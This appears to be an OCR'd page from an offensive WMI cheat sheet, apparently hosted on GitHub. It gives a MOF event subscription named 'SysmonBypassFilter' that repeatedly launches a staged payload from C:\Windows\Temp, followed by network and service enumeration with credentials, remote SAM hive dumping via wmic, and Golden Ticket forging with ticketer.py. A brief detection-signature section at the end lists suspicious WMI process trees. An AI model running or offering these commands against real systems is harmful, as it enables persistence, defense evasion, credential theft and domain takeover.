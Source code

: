 ```c
instance of __EventFilter as $Filter
{
    Name = "SysmonBypassFilter";
    EventNamespace = "root\\cimv2";
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 30 WHERE TargetInstance ISA 'Win32_Process'";
    QueryLanguage = "WQL";
};

instance of CommandLineEventConsumer as $Consumer
{
    Name = "DefenseEvasionConsumer";
    RunInteractively = false;
    CommandLineTemplate = "cmd /c start /min C:\\Windows\\Temp\\stage2.exe";
};

instance of __FilterToConsumerBinding
{
    Filter = $Filter;
    Consumer = $Consumer;
};
```
Compile with: `mofcomp.exe malicious.mof`
## Reconnaissance & Enumeration
1. Network Enumeration with CrackMapExec
```bash
# Enumerate domain computers via WMI
crackmapexec smb 192.168.1.0/24 -u Admin -p P@ssw0rd --wmi "SELECT * FROM Win32_ComputerSystem"
```
2. OS Fingerprinting
```powershell
# Identify Windows 11 systems
Get-WmiObject -Query "SELECT * FROM Win32_OperatingSystem WHERE Version LIKE '10.0.2%' AND ProductType=1"
```
3. Service Discovery
```cmd
wmic service where "name like '%sql%'" get name,pathname,startmode
```
## Credential Access & Manipulation
SAM/LSA Dumping via WMI
```powershell
# Dump SAM remotely using WMIC
wmic /node:DC01 /user:DAETHYRA process call create "reg save HKLM\SAM C:\Windows\Temp\sam.save"
```
Golden Ticket Injection
```powershell
# Using Impacket's ticketer.py
python3 ticketer.py -nthash aad3b435b51404eeaad3b435b51404ee -domain-sid S-1-5-21-... -domain DOMAIN.LOCAL Administrator
```
## Threat Hunting | Defense Countermeasures
### Detection Signatures
**Unusual WMI Process Trees:**
```yaml
ParentProcess: ('mshta.exe', 'winword.exe', 'explorer.exe')
ChildProcess: ('wmiprvse.exe', 'scrcons.exe')
CommandLine: 
  - '* -enc*' 
  - '*format:http*'
```